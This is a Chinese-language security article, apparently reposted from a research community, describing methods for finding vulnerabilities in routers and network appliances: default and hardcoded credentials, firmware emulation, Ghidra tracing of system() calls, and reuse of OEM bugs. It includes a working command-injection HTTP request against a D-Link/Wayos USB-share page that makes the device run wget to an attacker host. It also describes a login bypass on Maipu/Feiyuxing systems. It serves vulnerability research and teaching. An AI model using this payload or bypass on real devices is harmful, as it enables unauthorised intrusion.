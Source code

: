 #  【总结】设备漏洞挖掘思路   
 全栈网络空间安全   2024-10-06 03:24  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
# 免责声明  
  
  
本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者及本公众号团队不为此承担任何责任。  
  
# 文章正文  
  
  
在日常渗透过程中，可能会遇到各种路由，上网行为管理等设备，这时候该怎么去对这些设备进去快速挖掘就成为我们想要解决的问题  
## 1.信息收集  
### 1.1 弱口令搜索  
  
对于设备黑盒来说，信息收集也是一个比较重要的过程，更多的时候可以去寻找web后台密码，一些设备可以得到比如通过寻找网上的用户指导手册可得，如  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyuxxxIgDhzMjcCDKickeahln7uUEg03vicwzwcxoxuA5Vfd3FcuYJENdg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyTwIAPGKe72wkrsnUNneibzJIiaGF8sFvoZlPI3rTgPXd6lxHcIByiaBeg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
也可以通过cnvd以及cve查找相应弱口令设备然后进入fofa或者hunter等搜索引擎搜索到未修复的弱口令进入后台挖掘，因为更多的功能点只能在后台更好的做测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyAEBghicrXgHJ4QBM46RF5gtu1frILgVtcyGeJmLxJoo2TQfFGQqJrUw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmygu2Hjht8zQZlLfEUf455kYICgy72voo0V7kLuTGLeL9EQwx2xyteeQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
### 1.2 硬编码问题  
  
设备常常会开启一些如telnet,ssh服务，也可能在初始化时会以硬编码的方式开启这些服务端口，允许设备被远程连接，也可能是开发者在调试的一些隐藏后门  
例如wayos微盟路由器固件出现过的mqtt协议泄露账户的漏洞  
在做固件的仿真模拟执行ps的时候看到了该系统仿真后的shell开启了相关的telnet服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyAxYRkERMF2ppMzuicRd8I9ffochp5MhicOncmMZNDc7F86PondvuTPpA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
也在初始化文件中看到确实有该操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyicoVjajDiba1gHcwK5gC56savc0bS0UvcFcFWrmhRiae6Fdx3ic125KT6w/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
如图我们看到了确实wayos启动了该telnet服务，利用对字符寻找找到了以下文件，对以下文件进行简单分析目标锁定在了mqtt_ai文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyicgUCsQPdoKspibianlicg6Msje1bF8XHjpLmjX7hlXXo9HVGmq8ylF4sw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
通过对函数的简单寻找锁定到该函数mqtt_ai_sw_telnet_login  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyB3gApVSfHPqbabiaRmcteh8dnuqQbZJts3iaGzlSE6uZ64H1djztXZ9g/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
对该函数进行简单分析后，该while函数似乎是对telnet登录的一个校验操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyDsiciagiabgrBXkOz0NV9SxgtWmRRNAzwRbV4cfVTtAg1jMWfbibymSjmw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
使用该硬编码后登录了该设备的telnet服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyFvVHeicoyyN9iauIMRDicOewrBNLK2oVc1hqyeXCMCq4wCobIs4ia4elTw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
ssh密码寻找，该设备也可能会开启ssh，我们在做仿真模拟的时候，可以查看/etc/shadow文件，也可以试着解密这密码进行漏洞挖掘  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyMLcicZF9IcxSRiciaGXxHK84KWjUySNqHdJbn6JH8l6AzkwX8G6ycwiaVg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
## 2.相同组件及OEM框架挖掘  
  
这是我们每个人都会忽略的点，正如我们挖web的时候，挖java的站点我们常常会想到一些fastjson，log4j2这种会造成漏洞的组件漏洞，以及类似springboot框架类似的框架型漏洞，对于我来说我们所说的设备也有所谓的组件以及框架。  
### 2.1 组件漏洞问题  
  
相对于设备来说也有其相应的组件，我们在做设备挖掘，设备可能会有相应的功能点，正如我以下想说的usb共享存储组件导致的命令执行漏洞，以下举例微盟的路由器以及dlink的路由器进行举例  
首先发现了微盟的路由器有该相关漏洞在寻找前台路由器挖掘时，发现了dlink路由器的用户指导手册中具有相同的功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy4UuH7wqp7lxbcVtIicsJc2oicveLJn8icDicibAichkgOHnhEHIosTibhQubg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
将dlink固件拉下解开固件包后寻找漏洞路径字符，发现该组件也拥有相同漏洞路径字符  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyxRfxm4aW9mfISdPAADyKV4kiblOKcfwjBnq9cNdnJUiam9jgHVAPofFw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
进入审计  
首先对该固件丢入ghidra进入分析，在Function栏过滤出主要执行函数system，对该函数点击交叉引用，  
得到所有调用system函数的位置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyzYZSgrRdOsIKx7tWhEG4GHPVXtIbfGYyIYwIcp17943kgCXHMsWcsA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
开始反溯system执行的命令中含有可控数据流部分，通过逐个调用点反编译，发现以下可控数据流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmybKbvTNlQy5QUs2bWpib5vsJTtQ0n4QErGzJfmObhicQ3tP4dd189ssXQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
这段代码的本来主要目的是设置Samba服务器的用户名。它首先获取两个全局变量的值，然后使用echo  
命令将这些值写入/etc/smbusers文件。这样，Samba服务器就可以使用这些用户名进行身份验证，但从  
该伪代码可以看出用户输入获取usb_username和use_husername没有进行完全过滤，拼接的命令直接作  
为system()参数执行，故此可能引发命令注入  
往下看我们可以发现该输出代码从用户输入的hname函数中获取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyZJymNMsdUWjWoKE30btIcd7LZGctSn5fibyMhv2ZUsP8BWDchCXwHvw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
使用poc进行wget请求  
```
GET /usb_paswd.asp?share_enable=1&passwd=123456&name=login&hpasswd=123456&hname=hlogin%60wget%20http%3A%2F%2F192.168.1.2%3A8000%60&acc_ip=&acc_mac=&acc_wan=0&acc_auth=0&send_email_en=0&send_email_name=0&send_email_pwd=0&device_name=&_=1663771596225 HTTP/1.1

Host:192.168.1.1

User-Agent:Mozilla/5.0(X11;Ubuntu;Linux x86_64; rv:104.0)Gecko/20100101Firefox/104.0

Accept: application/json, text/javascript,*/*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/index.htm

Cookie: userid=root; gw_userid=root,gw_passwd=0C667259F7A2069B7C55AB5D95F2FE7B
```  
  
本机先起一个服务，发送上述数据包发现该被攻击机对攻击机服务器发起了服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmybOGK3wcdRhD7s26sR5Cficiba2xNGCwoXtz6UNYtdNV71emias50D534Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
### 2.1 OEM漏洞问题  
  
正如上述所说，设备也有属于自己的框架，我们可以通过相应的，可以通过寻找一些cve或者cnvd的路由器进行获取一些js获取得到一些类似的系统设备的相同漏洞，或者rce之后做白盒审计发现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy8QTB1oxFelFVZzSVnaOezniascnWnaEZCNmoXnUyJf2CPu7vJHVNr8A/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
如最近的迈普的多业务融合系统和飞鱼星的企业智能上网行为管理的相同漏洞，根据一些引用的静态文件，寻找到两种设备都为使用相同OEM  
飞鱼星飞鱼星企业级智能上网行为管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyRicwrtJia5txvD1sXjXJwk5PiaHAc2HDDI0UBrBnoIJ79QXhKzCNw4w7Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
迈普多业务融合系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyznesd15tzrhXPafafMRTHWfKQzNnmWdR9QfBwLeYztiaqmHrFcAa19Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyl42n1gY4WCB6q1CFPknibSP8jbiagHZhkdarial0sXOZUAwchhiaYHQS0Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
发现飞鱼星漏洞在迈普依旧可以使用，如该权限绕过漏洞  
迈普多业务融合系统存在权限绕过(未公开poc，通过飞鱼星反溯得到)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy46NFz5UwPBaeo3aytlGm9dEItYleibHyMQIJWqFHXiaMx4XMkpHqn7EA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
然后访问   
http://xxx/home/index.htm,丢弃cookie.cgi相同包可以绕过设备登录校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmywwiaz6Vicu0KsevAmibtCXvgO9ibhXbCQrLZDj9ibekHVurjJdm9O07ZvOA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyofgicbsr9ic58jjNT2G8RFrVRKukg3lXWBb4xt55uKfa7y2OSEfJFnnw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
> **文章来源：先知社区**  
  
  
```
```  
  
  
  
